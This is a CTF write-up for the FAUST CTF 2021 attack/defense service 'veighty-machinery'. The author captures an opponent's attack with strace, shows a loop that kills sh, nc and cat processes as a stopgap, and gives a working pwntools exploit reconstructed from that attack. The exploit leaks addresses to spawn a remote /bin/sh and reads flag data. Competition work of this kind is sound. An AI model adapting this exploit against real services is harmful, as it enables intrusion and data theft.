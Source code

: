 # FAUST CTF 2021

## /srv/veighty-machinery

This was an [Attack/Defense](https://2020.faustctf.net/information/attackdefense-for-beginners/) CTF.  There's no task description or Jeopardy-style scoring.  Just, attack, defend, and maintain SLAs.

Tags: _pwn_ _x86-64_ _remote-shell_ _a/d_ _shameless_


## Summary

```
Go program your
                  __
                 /  \
           .-.  |    |
   *    _.-'  \  \__/
    \.-'       \
   /          _/
  |      _  /"
  |     /_\'
   \    \_/
    """"
Give me your bytecode!
I will load the cannon and execute it.
```

Bytecode!  _(groan)_, I have near zero skills in this area.

**Plan B: Wait to be attacked and learn from our attackers.**


## Honeypot

Enable `strace` on the service by editing `/etc/systemd/system/veighty-machinery@.service` and changing:

```
ExecStart=-/srv/veighty-machinery/veighty-machinery
```

to:

```
ExecStart=-/usr/bin/strace -ttt -f -ff -o /strace/veighty /srv/veighty-machinery/veighty-machinery
```

then enable with:

```bash
systemctl daemon-reload
```

Now, wait for it.....

```
/strace/veighty.1627021
```

Got one!

Inspecting reveals the success of the attack:

```
1623530151.329429 write(1, "/bin/sh;P\376\347\277z\177", 14) = 14
1623530151.329612 write(1, "\n", 1)     = 1
1623530151.329752 rt_sigaction(SIGINT, {sa_handler=SIG_IGN, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7f7abfe72d60}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
1623530151.329927 rt_sigaction(SIGQUIT, {sa_handler=SIG_IGN, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x7f7abfe72d60}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
1623530151.330067 rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
1623530151.330199 mmap(NULL, 36864, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS|MAP_STACK, -1, 0) = 0x7f7abfe2e000
1623530151.330325 rt_sigprocmask(SIG_BLOCK, ~[], [CHLD], 8) = 0
1623530151.330456 clone(child_stack=0x7f7abfe36ff0, flags=CLONE_VM|CLONE_VFORK|SIGCHLD) = 1627315
```

Clearly our _guest_ is trying to get a remote shell, and the `clone` indicates success.  The forked process is `1627315`, I wonder what that reveals:

```
+++ killed by SIGTERM +++
```

Muhahahahaha...


## Mitigation

Our standard starting mitigation:

```bash
while :; do for uid in $(cat serviceusers); do pkill -e -U $uid 'sh|nc|cat'; done; done | tee servicekill.log
```

Until we can figure out how to patch, this catches many would be exploits, including the above.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('/srv/veighty-machinery/veighty-machinery')

p = remote('fd66:666:1::2', 7777)

p.sendlineafter('Length:\n','24')

payload  = b'\30\30\30\27\27\27\3\25\2\2\2\2\2\2\3\2\2\2\2\2\30\30\27!'
payload += b'CCCCCCCCCCCCCCCC\n'
payload += 1280 * b'A' + b'\n'
payload += b'BBBBBBBBBBBBBBBB\n'

p.sendafter('Bytecode:\n',payload)
p.sendafter('CCCCCCCCCCCCCCCC\n','\10\22\0\0\0\0\0\0')

foo = int(p.recvline().strip().decode(),16)
bar = foo + 12936
p.send(p64(bar))
foobar = bar - 1544216

payload  = 16 * b'D'
payload += b'\n'
payload += b'/bin/sh;'
payload += p64(foobar)

p.sendline(payload)
p.sendline('head data/*')
p.sendline('echo shell')
_ = p.recvuntil('shell')
print(_)
p.close()
```

I cannot tell you how this works, just that it does work.  However, [Perfect Blue](https://ctftime.org/team/53802) can tell you exactly how this works: [https://github.com/perfectblue/ctf-writeups/tree/master/2021/faustctf-2021/veighty-machinery](https://github.com/perfectblue/ctf-writeups/tree/master/2021/faustctf-2021/veighty-machinery).

All I did was follow the `strace`, clearly they were leaking addresses and doing some math (`strace` output included in this directory).

If you've done any CTF pwn challenges you'll recognize base and libc addresses, and you can compute the deltas by computing the difference between what was read vs. write, e.g.:

```
1623530151.230314 write(1, "0x7f7abfff5be0\n", 15) = 15
1623530151.230374 write(1, "0x7f7abfff5be0\n", 15) = 15
1623530151.230428 write(1, "0x511\n", 6) = 6
1623530151.230483 write(1, "0x0\n", 4)  = 4
1623530151.230533 write(1, "0x556f6b47d010\n", 15) = 15
1623530151.230581 write(1, "0x556f6b4867f0\n", 15) = 15
1623530151.230630 read(0, "h\216\377\277z\177\0\0", 8) = 8
```

After the initial payload, an address (`0x7f7abfff5be0`) is received, looks like libc to me, what exactly, dunno, don't care, then our attacker sent back `h\216\377\277z\177\0\0` (`0x7f7abfff8e68`), the difference is `12936`.  So for our exploit script, we just need to add that number to whatever address we receive and send it back.  _Why?_  I have no idea.  We're just copying another's exploit and need ours to behave exactly the same.  Repeat for the rest of the `strace` dump.

A/D is just the best.
